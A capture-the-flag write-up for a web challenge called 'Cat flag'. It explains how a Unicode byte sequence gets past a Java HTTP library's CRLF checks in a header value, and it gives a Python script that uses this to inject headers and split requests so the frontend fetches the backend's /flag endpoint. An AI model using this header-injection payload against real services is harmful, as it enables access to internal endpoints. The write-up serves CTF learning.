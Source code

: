 # Cat flag (web, 60p, 12 solved)

In the challenge we can connect to a website which is split in 2 parts.
There is [frontend](Frontend.java) and [backend](Backend.java).

It's clear that the flag can be served by backend if we request `/flag` endpoint, however we can't query backend directly at all.
We can only send requests to the frontend side.

We can send request with few names and then the frontend will do:

```java
for (int i = 0; i < names.length; i++) {
    String name = names[i].trim();
    URI url = new URI("http://localhost:8085/cat/" + URLEncoder.encode(name, "UTF-8"));
    HttpGet httpget = new HttpGet(url);
    httpget.setHeader("X-Trace", trace);
    String response = httpclient.execute(httpget, responseHandler);
    cats[i] = response;
}
```

We control the names, but we also control the `trace` parameter.
`URLEncoder.encode` is bulletproof, so we can't do anything strange there.
On the other hand `httpget.setHeader("X-Trace", trace);` seems interesting.

If we go into the source code of the library we can notice that there are special checks to prevent passing `\r\n` inside header value.
However, java uses unicode strings!

We can send for example `\xE0\xB4\x8A`, it will bypass the checks for `\r\n` obviously, but it will also be interpreted as proper newline sequence.
This gives us power to inject headers, and even more, we can do request splitting to inject a second request.
We need to send `keep-alive` header to prevent server from closing connection after the first request, and we need to send at least 2 names, so that the frontend will expect another response:

```python
import requests


def main():
    host = "http://catflag.hackable.software:8080"
    url = host + "/cats?traceId=1234\xE0\xB4\x8AConnection: keep-alive\xE0\xB4\x8A\xE0\xB4\x8AGET /flag HTTP/1.0\xE0\xB4\x8A\xE0\xB4\x8A"
    r = requests.post(url, json={"names": ["ala", "ola"]})
    print(r.text)


main()
```

This way we get back `DrgnS{Th1sIsN0tAS3cur1tyBug}`
